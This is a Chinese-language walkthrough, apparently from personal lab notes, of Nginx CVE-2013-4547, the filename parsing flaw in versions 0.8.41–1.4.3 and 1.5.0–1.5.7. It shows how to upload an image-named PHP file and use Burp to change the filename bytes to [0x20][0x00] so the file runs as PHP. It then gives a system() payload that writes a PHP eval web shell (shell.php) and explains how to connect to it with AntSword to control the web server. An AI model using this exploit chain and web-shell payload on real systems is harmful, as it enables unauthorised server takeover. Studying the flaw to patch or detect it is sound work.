 # Nginx 文件名逻辑漏洞（CVE-2013-4547）

**Nginx-0.8.41-1.4.3和1.5.7之前的1.5x允许远程攻击者通过Url中的未转义空格字符来实现绕过**



影响版本：

Nginx 0.8.41 ~ 1.4.3 / 1.5.0 ~ 1.5.7



上传一个图片格式的木马文件名称为abc.jpg，内容是<?php phpinfo(); ?>被burp拦截后发现在文件名后加两个空格，上传成功

![104fdfb21ab8458cab799c473ed1846](C:\Users\雷神\AppData\Local\Temp\WeChat Files\104fdfb21ab8458cab799c473ed1846.png)

构造abc.jpg  .php 来造成nginx解析漏洞是我们的abc.jpg解析成php格式，访问

先上传abc.jpg .php文件，注意jpg后面有两个空格

然后在burp中抓数据包将abc.jpg的Hex值后面的两个空格 [0x20][0x20] ---> [0x20][0x00]发现上传成功![ecd2b1d075b370c318678abcbd338b9](C:\Users\雷神\AppData\Local\Temp\WeChat Files\ecd2b1d075b370c318678abcbd338b9.png)

访问http://xxx/uploadfiles/abc.jpg .php

空格会被编码，在brup中手动改为abc.jpg .php

最后把访问abc.jpg的hex值两个空格改为[0x20][0x20] ---> [0x20][0x00] ,发现成功访问文件

![a5e37de179a0a1212aaa84bc9c47bb1](C:\Users\雷神\AppData\Local\Temp\WeChat Files\a5e37de179a0a1212aaa84bc9c47bb1.png)

![204d077a04d39de20ade93b18ae6649](C:\Users\雷神\AppData\Local\Temp\WeChat Files\204d077a04d39de20ade93b18ae6649.png)

# 漏洞利用

因为浏览器打不了\0，所以要更换思路去getshell

上传文件时，利用php的system函数去构建文件

`getshell.gif[0x20][0x00].php`文件

一句话：

```php
<?php system('echo "<?php @eval(\$_POST[pass]);?>" >shell.php')?>
```

![image-20220419093246110](C:\Users\雷神\AppData\Roaming\Typora\typora-user-images\image-20220419093246110.png)

然后利用burp修改hex，访问`getshell.gif[0x20][0x00].php`，访问过后将会在当前文件下生成shell.php

然后利用蚂剑连接将可以获取web服务器权限

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210125214047303.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80MTkyNDc2NA==,size_16,color_FFFFFF,t_70)

